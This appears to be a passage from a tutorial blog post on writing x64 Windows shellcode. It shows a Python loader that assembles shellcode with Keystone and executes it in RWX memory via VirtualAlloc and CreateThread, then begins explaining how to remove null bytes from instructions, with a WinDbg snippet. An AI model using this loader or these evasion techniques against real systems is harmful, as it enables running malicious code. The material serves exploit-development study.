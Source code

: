 ```python
    ks = Ks(KS_ARCH_X86, KS_MODE_64)
    instructions, count = ks.asm(SHELLCODE)
 
    sh = b""
    output = ""
    for opcode in instructions:
        sh += struct.pack("B", opcode)                          # To encode for execution
        output += "\\x{0:02x}".format(int(opcode)).rstrip("\n") # For printable shellcode
 
 
    shellcode = bytearray(sh)
    print("Shellcode: " + output )
 
    print("Attaching debugger to " + str(os.getpid()));
    subprocess.Popen(["WinDbgX", "/g","/p", str(os.getpid())], shell=True)
    input("Press any key to continue...");
 
    ctypes.windll.kernel32.VirtualAlloc.restype = ctypes.c_void_p
    ctypes.windll.kernel32.RtlCopyMemory.argtypes = ( ctypes.c_void_p, ctypes.c_void_p, ctypes.c_size_t ) 
    ctypes.windll.kernel32.CreateThread.argtypes = ( ctypes.c_int, ctypes.c_int, ctypes.c_void_p, ctypes.c_int, ctypes.c_int, ctypes.POINTER(ctypes.c_int) ) 
 
    space = ctypes.windll.kernel32.VirtualAlloc(ctypes.c_int(0),ctypes.c_int(len(shellcode)),ctypes.c_int(0x3000),ctypes.c_int(0x40))
    buff = ( ctypes.c_char * len(shellcode) ).from_buffer_copy( shellcode )
    ctypes.windll.kernel32.RtlMoveMemory(ctypes.c_void_p(space),buff,ctypes.c_int(len(shellcode)))
    handle = ctypes.windll.kernel32.CreateThread(ctypes.c_int(0),ctypes.c_int(0),ctypes.c_void_p(space),ctypes.c_int(0),ctypes.c_int(0),ctypes.pointer(ctypes.c_int(0)))
    ctypes.windll.kernel32.WaitForSingleObject(handle, -1);
 
if __name__ == "__main__":
    main()
```

When executing the script, an access violation is observed due to the presence of null bytes (`0x00`) within our shellcode.

<img src="{{ site.url }}{{ site.baseurl }}/images/2024-05-01_18-20.png" alt="">

### Removing Null Bytes

To solve this problem, alternative instructions that lead to the same result must be used. For example, rather than subtracting, adding a negative number to a register achieves the same effect.

The first identified instruction containing nullbytes is `sub rsp, 0x208`.

```
0:003> ? 0x208
Evaluate expression: 520 = 00000000`00000208
```

The same technique as mentioned above is used. First, it is verified that `-0x208` does not contain a nullbyte.
